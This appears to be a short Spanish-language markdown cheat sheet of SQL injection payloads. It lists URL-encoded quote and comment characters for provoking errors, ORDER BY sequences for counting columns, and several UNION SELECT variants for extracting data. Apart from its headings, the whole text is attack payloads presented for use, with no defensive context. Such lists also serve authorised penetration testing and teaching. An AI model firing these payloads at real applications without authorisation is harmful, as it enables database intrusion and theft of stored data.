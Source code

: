 ## Ejemplos de payloads sql injection

### Detectar un error sql 
```
' = %27
" = %22
# = %23
; = %3B
```

### Detectar numero de columnas vulnerables 
```
 ORDER BY 1-- 
 ORDER BY 2-- 
 ORDER BY 3-- 
 ORDER BY 4-- 
 ORDER BY 5-- 
 ORDER BY 6-- 
 ORDER BY 7-- 
 ORDER BY 8-- 
 ORDER BY 9-- 
 ORDER BY 10-- 
 
 ORDER BY 1# 
 ORDER BY 2# 
 ORDER BY 3# 
 ORDER BY 4# 
 ORDER BY 5# 
 ORDER BY 6# 
 ORDER BY 7# 
 ORDER BY 8# 
 ORDER BY 9# 
 ORDER BY 10# 

```

### Union Select Payloads

```
 UNION SELECT 1
 UNION SELECT 1,2
 UNION SELECT 1,2,3
 UNION SELECT 1,2,3,4
 UNION SELECT 1,2,3,4,5
 UNION SELECT 1,2,3,4,5,6
 UNION SELECT 1,2,3,4,5,6,7

 UNION ALL SELECT 1
 UNION ALL SELECT 1,2
 UNION ALL SELECT 1,2,3
 UNION ALL SELECT 1,2,3,4
 UNION ALL SELECT 1,2,3,4,5
 UNION ALL SELECT 1,2,3,4,5,6
 UNION ALL SELECT 1,2,3,4,5,6,7
 
 UNION(SELECT 1)
 UNION(SELECT 1,2)
 UNION(SELECT 1,2,3)
 UNION(SELECT 1,2,3,4)
 UNION(SELECT 1,2,3,4,5)
 UNION(SELECT 1,2,3,4,5,6)
 UNION(SELECT 1,2,3,4,5,6,7)
 
```